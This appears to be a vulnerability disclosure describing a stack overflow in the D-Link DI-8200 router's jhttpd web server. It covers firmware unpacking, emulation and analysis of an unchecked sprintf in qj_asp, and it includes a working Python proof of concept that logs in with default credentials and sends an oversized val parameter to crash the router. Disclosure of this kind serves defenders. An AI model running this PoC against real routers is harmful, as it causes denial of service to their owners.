 # D-Link DI-8200 Stack Overflow Vulnerability

## Firmware Extraction and Emulation

Get the DI-8200 router firmware, use binwalk to analyze and unpack the firmware, and extract the file system:

```shell
binwalk -Me DI_8200-16.07.26A1.trx
```

![p1](./pic/p1.png)

Use FirmAE to simulate firmware running:

```shell
sudo ./run.sh -d aa ../CVE/DI_8200-16.07.26A1.trx
```

![p3](./pic/p3.png)

## Vulnerability Analysis

Extract the firmware file system and find a stack overflow vulnerability in the qj_asp function of the \usr\sbin\jhttpd file:

![p2](./pic/p2.png)

The qj_asp function is implemented within jhttpd to process parameters for the qj.asp page. After logging into the router, it can be accessed via http://\<ip\>/qj.asp. The val parameter can be used to pass any value. The value passed in is retrieved via the httpd_get_parm function, which is then formatted using the sprintf function and assigned to the stack variable v9.

![p4](./pic/p4.png)

The variable v9 is a 200-byte character array. Since the value of the val parameter can be controlled by the parameters passed in by the front-end and the parameter variable is not checked or filtered during formatting and assignment, the value of the val parameter can be controlled to cause a stack overflow in the program, resulting in a denial of service or even command execution.

![p5](./pic/p5.png)

## Vulnerability Verification

poc:

```python
import requests

s = requests.session()
url = "http://192.168.0.1"
headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}
data = {"user": "admin", "password": "admin"}
s.post(f"{url}/login.cgi", headers={**headers, "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Referer": f"{url}/login.html"}, data=data)
p = b'a' * 0x500
r = s.get(f"{url}/qj.asp?val={p}", headers=headers)
print(r.text)
```

Before executing POC, the router is accessible normally:

![p6](./pic/p6.png)

Executing the POC will cause a stack overflow, causing the router to crash and thus achieve a denial of service attack:

![](./pic/p7.png)

![p8](./pic/p8.png)

